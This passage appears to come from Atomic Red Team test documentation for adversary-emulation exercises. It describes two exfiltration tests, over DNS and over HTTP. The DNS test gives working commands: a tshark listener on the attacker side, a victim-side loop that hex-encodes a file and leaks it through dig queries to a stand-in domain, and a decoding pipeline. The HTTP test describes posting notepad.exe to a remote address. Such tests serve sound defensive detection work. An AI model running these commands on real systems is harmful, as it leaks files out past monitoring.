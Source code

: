 




<br/>
<br/>

## Atomic Test #3 - Exfiltration Over Alternative Protocol - DNS
Exfiltration of specified file over DNS protocol.

**Supported Platforms:** Linux


**auto_generated_guid:** c403b5a4-b5fc-49f2-b181-d1c80d27db45





#### Run it with these steps! 
1. On the adversary machine run the below command.

    tshark -f "udp port 53" -Y "dns.qry.type == 1 and dns.flags.response == 0 and dns.qry.name matches ".domain"" >> received_data.txt

2. On the victim machine run the below commands.

    xxd -p input_file > encoded_data.hex | for data in `cat encoded_data.hex`; do dig $data.domain; done
    
3. Once the data is received, use the below command to recover the data.

    cat output_file | cut -d "A" -f 2 | cut -d " " -f 2 | cut -d "." -f 1 | sort | uniq | xxd -p -r







<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - HTTP
Exfiltration of specified file over HTTP.
Upon successful execution, powershell will invoke web request using POST method to exfiltrate notepad.exe to a remote address (default http://127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** 6aa58451-1121-4490-a8e9-1dada3f1c68c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent | string | http://127.0.0.1|
